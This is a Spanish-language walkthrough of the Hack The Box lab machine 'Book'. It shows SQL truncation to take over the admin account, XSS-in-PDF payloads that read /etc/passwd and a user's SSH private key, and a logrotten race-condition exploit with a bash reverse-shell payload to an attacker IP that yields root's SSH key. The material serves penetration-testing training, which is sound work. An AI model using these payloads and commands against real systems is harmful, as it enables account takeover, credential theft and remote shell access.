



# Book

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- SQL Truncation Attack
- XSS / LFI
- Logrotten

## Nmap Scan

`nmap -sV -sC -p- 10.10.10.176`

```
Nmap scan report for 10.10.10.176
Host is up (0.27s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Enumerando el puerto 80 nos encontramos con un formulario de login y uno para registrarse, revisando el source code podemos ver un script que valida los caracteres ingresados en el formulario de registro.


Usando **gobuster** buscamos directorios y archivos en la página web. Se encuentra el directorio **/admin**.

`gobuster dir -u http://10.10.10.176/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40`


Si intentamos registrarnos con el usuario **admin** veremos que ya existe.




Nos registramos con cualquier usuario y accedemos al portal. Podemos ver que en **Collections** se pueden subir archivos pero es necesario que el administrador los acepte.





## SQL Truncation Attack

> El truncamiento de SQL es un exploit que surge debido a la configuración incorrecta de las bases de datos. Si la base de datos es vulnerable y el número máximo de caracteres para el nombre de usuario es, por ejemplo, 30 y desea suplantar al usuario admin, intente crear un nombre de usuario llamado: "admin [30 espacios] a" y cualquier contraseña. La base de datos verificará si el nombre de usuario introducido existe dentro de la base de datos. Si no, reducirá el nombre de usuario al número máximo permitido de caracteres y eliminará automáticamente todos los espacios al final de la actualización dentro de la base de datos del usuario "admin" con la nueva contraseña (puede aparecer algún error pero no significa que esto no haya funcionado).

Investigando diferentes tipos de login bypass con sql injection, llegamos a este [articulo](https://resources.infosecinstitute.com/sql-truncation-attack/). Este ataque nos permitirá suplantar la cuenta del usuario admin y poder iniciar sesión en el portal **/admin**.

Capturamos la petición del registro y la modificamos agregando los espacios.

```
name=admin&email=admin%40book.htb               1&password=admin
```


Veremos que nos regresa al formulario de inicio de sesión, si vamos a la ruta **/admin** e intentamos iniciar sesión nos daremos cuenta de que el ataque fue exitoso.


## XSS / LFI

Revisando como explotar el formulario para subir archivos encontramos este [articulo](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) bastante útil, ya que nos permitirá leer archivos de forma local y serán reflejados en el PDF.

Descargaremos uno de los PDF que están en **Collections** y lo utilizaremos para hacer el ataque.

En el panel del usuario subimos nuestro payload para intentar leer el archivo **passwd**.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>`


Descargamos el PDF de **Collections** del panel de administrador y veremos que el archivo passwd se refleja en el PDF.


Se puede visualizar el usuario **reader**, intentaremos leer la llave privada del usuario. Aplicamos los mismo pasos anteriormente mencionados.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`


Nos trae la llave privada pero no se puede ver claramente. En este punto yo use un script llamado [pdf2txt.py](https://github.com/pdfminer/pdfminer.six/) para obtener todo el texto correctamente.

`python3 /usr/local/bin/pdf2txt.py 77071.pdf`



Quitamos los espacios de sobra en la primera y última linea, cambiamos los permisos de la llave y nos conectamos por SSH.

- `chmod 400 id_rsa`
- `ssh -i id_rsa reader@10.10.10.176`


## Escalada de Privilegios

### Logrotten

Usando **pspy64** nos percatamos que hay un proceso interesante que está ejecutando **logrotate**.

- `scp -i id_rsa /opt/linux/pspy64 reader@10.10.10.176:/tmp/`
- `chmod +x pspy64`
- `./pspy64`


Investigando damos con este [repositorio](https://github.com/whotwagner/logrotten) que tiene un exploit que nos permite aprovecharnos de logrotate.

Compilamos el exploit dentro de la máquina y creamos nuestro payload.

- `gcc -o logrotten logrotten.c`
- `echo "/bin/bash -i >& /dev/tcp/10.10.14.195/1234 0>&1" > payloadfile`


Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Ejecutamos nuestro exploit y para que haga efecto necesitamos escribir algo en el archivo **access.log** desde otra sesión SSH.

- `./logrotten -p ./payloadfile /home/reader/backups/access.log`
- `echo hola > access.log`


Ya que esto es un **race condition** tendremos que intentar unas cuantas veces hasta que consigamos nuestra shell. La shell se cerrará bastante rápido, entonces leeremos el id_rsa del usuario root para posteriormente conectarnos por SSH.

`cat /root/.ssh/id_rsa`


- `chmod 400 id_rsa_root`
- `ssh -i id_rsa_root root@10.10.10.176`


## Referencias
https://resources.infosecinstitute.com/sql-truncation-attack/ \
https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html \
https://github.com/pdfminer/pdfminer.six/ \
https://github.com/whotwagner/logrotten